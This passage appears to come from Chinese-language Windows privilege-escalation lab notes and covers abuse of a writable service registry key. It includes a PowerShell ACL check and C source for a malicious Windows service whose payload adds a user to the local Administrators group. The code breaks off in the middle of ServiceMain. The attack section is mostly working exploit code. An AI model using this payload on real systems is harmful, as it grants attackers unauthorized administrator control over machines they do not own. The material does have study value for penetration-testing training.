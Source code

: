 # 3.服务提权-注册表（Service Escalation - Registry）

## 前提

使用下面ps命令查看：
> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

满足属于```NT AUTHORITY\INTERACTIVE```的用户拥有```FullContol```的权限

## 思路

如果拥有修改修改服务注册表的权限，那么就可以通过修改这个服务将要执行的二进制文件进行提权。

## 怎么利用?

将```C:\Users\User\Desktop\Tools\Source\windows_service.c```文件拷贝到kail

1. system里面的命令变为：```cmd.exe /k net localgroup administrators user /add```
```
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
```